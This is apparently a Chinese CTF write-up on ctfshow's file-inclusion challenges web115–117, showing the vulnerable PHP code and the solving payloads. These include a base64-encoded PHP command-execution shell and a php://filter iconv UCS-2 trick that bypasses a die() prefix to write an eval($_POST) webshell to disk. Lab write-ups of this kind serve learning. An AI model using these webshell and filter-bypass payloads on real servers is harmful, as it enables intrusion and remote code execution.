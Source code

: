 本题在于构造一个base64编码后没有特殊字符比如`+ =`的字符串,多变化尝试,好像`?>`一定会编码出加号

多尝试

payload

`PD9waHAgc3lzdGVtKCd0YWMgZionKTsgPz5hYWFh         ----<?php system('tac f*'); ?>aaaa`

### web116

compress.zlib

### web117

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```



本题类比于web87,也是利用伪协议控制编码,将死亡die()弄成四不像,顺利执行contents的内容

但是之前学的base64和rot13都被做掉了...........

看wp

`payload: file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php post:contents=?<hp pvela$(P_SO[T]1;)>?`

`convert.iconv.UCS-2LE.UCS-2BE`是一种过滤器,作用是将字符串每两位进行一次反转

和使用`iconv()`函数流数据作用相同`iconv ( string $in_charset , string $out_charset , string $str )`

```php
$result = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_POST[dotast]);?>');
echo "经过一次反转:".$result."\n";
echo "经过第二次反转:".iconv("UCS-2LE","UCS-2BE", $result);
//输出结果如下：
//经过一次反转:?<hp pe@av(l_$OPTSd[tosa]t;)>?
//经过第二次反转:<?php @eval($_POST[dotast]);?>
```

payload

![image-20220127235139770](https://gitee.com/blue_satchel/images/raw/master/image-20220127235139770.png)

死亡die被弄成无法执行

![image-20220127235400664](https://gitee.com/blue_satchel/images/raw/master/image-20220127235400664.png)



----

至此ctfshow的文件包含题目全部完成,虽然大多都是没啥死路,看着网上的wp一点点做的,但是因为本来就菜,所以这样参照做了一遍,并且记录了下来,也是学习到了很多新的方法,感谢分享知识的大佬

